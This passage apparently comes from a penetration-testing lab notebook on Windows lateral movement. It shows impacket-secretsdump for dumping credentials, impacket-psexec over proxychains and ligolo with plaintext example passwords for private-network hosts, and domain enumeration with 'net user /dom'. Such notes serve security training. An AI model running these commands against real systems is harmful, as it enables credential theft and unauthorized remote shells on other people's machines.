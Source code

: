 ```
impacket-secretsdump 'corpmngr@192.168.98.120'

User4&*&*


```



### PsExec trying

With the validated credentials we can try to establish a connection with `impacket-psexec`

```bash
proxychains impacket-psexec '$DOMAIN/$USER:$PASS@$TARGET_IP'

# with ligolo
impacket-psexec "john@192.168.98.30"
> User1@#$%6
```

```
impacket-psexec 'corpmngr@192.168.98.120'
> User4&*&*
```



### Get Information from the target

If we are in a windows env we can see in what domain is the machine with this command

```powershell
net user /dom
```

and view if there are another DC.

<figure><img src="../../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

Try to ping that and we have just discover another machine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

